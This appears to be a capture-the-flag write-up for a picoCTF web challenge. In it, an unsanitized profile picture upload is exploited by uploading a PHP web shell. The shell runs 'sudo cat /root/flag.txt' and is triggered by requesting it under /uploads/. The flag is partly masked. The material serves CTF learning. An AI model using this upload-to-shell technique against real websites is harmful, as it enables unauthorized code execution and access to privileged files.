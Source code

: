 ## Challenge 🧩

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Author: Prince Niyonshuti N.</br>
Points: 100

Hints:

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l

## Solution 🕵️‍♂️

Since the uploads are not sanitized, upload simple php shell.

```php
<?php
echo exec("sudo cat /root/flag.txt");
?>
```

![Simple PHP Shell Upload](src/shell_up.png)

Visit `/uploads/<file-name>.php`

![Flag](src/n0s4n1ty_flag.png)

## Flag 🚩

`picoCTF{wh47_c4n_u_d0_wPHP_xxxxxxxx}`
